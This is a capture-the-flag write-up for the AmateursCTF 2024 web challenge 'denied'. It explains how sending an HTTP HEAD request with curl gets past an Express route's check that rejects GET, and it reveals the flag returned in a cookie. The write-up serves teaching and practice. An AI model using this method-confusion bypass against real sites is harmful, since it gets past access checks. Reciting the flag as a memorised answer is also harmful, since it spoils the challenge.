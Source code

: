 ```yaml
---
title: "denied"
description: "what options do i have?"
points: 53
solves: 856
author: Jozef Steinhübl
date: April 11 2024
---
```


## Introduction

![task](https://raw.githubusercontent.com/GerlachSnezka/amateursctf/main/assets/2024-web-denied.png)

We have a website and source code for the website. After visiting the website, we see the response `Bad!`. We have to somehow bypass this response and get the flag.

## Solution

The website is written in JavaScript using the `express` framework and has only one route - `/`.

```javascript
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

From the source code, we can see that the website checks if the request method is `GET`. If it is, the website responds with `Bad!`. Otherwise, the website sets a cookie `flag` with the value of the environment variable `FLAG` and responds with `Winner!`.

How we're supposed to bypass `req.method == "GET"` condition? We can use the `OPTIONS` method to get all possible methods for the route `/`.

```bash
curl -X OPTIONS http://denied.amt.rs/
```

We can see that there are two methods available - `GET` and `HEAD`. We can use the `HEAD` method to bypass the condition.

```bash
curl -X HEAD http://denied.amt.rs/ -I
```

> [HEAD](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD) method is identical to [GET](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) method, but the server does not return a message-body in the response.  
> This can be used to obtain meta-information about the entity implied by the request without transferring the entity-body itself.  
> Express automatically maps the `HEAD` method to the `.get()` method.  

The response should contain an encoded flag in the `Set-Cookie` header.

```bash
amateursCTF%7Bs0_m%40ny_0ptions...%7D
```

Then we can just decode the flag using some service or as I did, using nodejs repl.

```javascript
> decodeURIComponent("amateursCTF%7Bs0_m%40ny_0ptions...%7D")
'amateursCTF{s0_m@ny_0ptions...}'
```

Flag: `amateursCTF{s0_m@ny_0ptions...}`